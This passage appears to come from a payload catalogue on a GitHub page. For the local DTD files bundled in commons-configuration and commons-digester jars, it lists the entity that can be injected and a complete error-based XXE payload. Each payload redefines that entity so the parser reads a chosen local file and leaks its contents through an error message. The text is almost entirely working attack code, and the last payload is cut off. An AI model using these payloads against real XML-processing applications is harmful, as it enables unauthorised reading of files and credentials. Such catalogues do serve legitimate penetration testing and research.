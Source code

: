 **Injectable entity:** `%plistObject`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/commons-configuration/commons-configuration/1.8/commons-configuration-1.8.jar!/PropertyList-1.0.dtd">

    <!ENTITY % plistObject '(aa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/commons-configuration/commons-configuration/1.9/commons-configuration-1.9.jar!/PropertyList-1.0.dtd`

**Injectable entity:** `%plistObject`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/commons-configuration/commons-configuration/1.9/commons-configuration-1.9.jar!/PropertyList-1.0.dtd">

    <!ENTITY % plistObject '(aa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/commons-digester/commons-digester/1.8.1/commons-digester-1.8.1.jar!/org/apache/commons/digester/xmlrules/digester-rules.dtd`

**Injectable entity:** `%rule-elements`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/commons-digester/commons-digester/1.8.1/commons-digester-1.8.1.jar!/org/apache/commons/digester/xmlrules/digester-rules.dtd">

    <!ENTITY % rule-elements 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

```
